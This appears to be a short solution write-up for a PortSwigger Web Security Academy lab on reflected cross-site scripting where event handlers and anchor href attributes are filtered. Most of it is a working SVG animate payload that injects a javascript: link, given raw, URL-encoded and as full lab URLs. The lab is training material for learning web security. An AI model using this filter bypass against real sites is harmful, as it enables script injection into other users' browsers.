

# Reflected XSS with event handlers and `href` attributes blocked

## This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked..

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

### Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

## `<a href="">Click me</a>`



`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
url encoded
`%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://0aa4001a03cd610e814b52b400050079.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

---

### step 1

search the below html code to solve the lab

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```
